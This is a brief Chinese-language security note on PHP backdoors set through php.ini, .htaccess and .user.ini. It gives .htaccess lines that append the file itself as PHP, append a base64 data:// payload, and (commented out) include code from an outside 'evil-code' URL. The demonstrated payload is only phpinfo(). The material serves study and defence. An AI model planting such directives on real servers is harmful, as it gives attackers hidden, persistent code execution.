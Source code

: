 后门
================================

php.ini构成的后门
---------------------------------

利用 auto_prepend_file 和 include_path


.htaccess后门
---------------------------------

::

    php_value auto_append_file .htaccess
    #<?php phpinfo();

::

    php_flag allow_url_include 1
    php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
    #php_value auto_append_file https://sektioneins.de/evil-code.txt


.user.ini文件构成的PHP后门
---------------------------------

.user.ini可运行于所有以fastcgi运行的server。
利用方式同php.ini

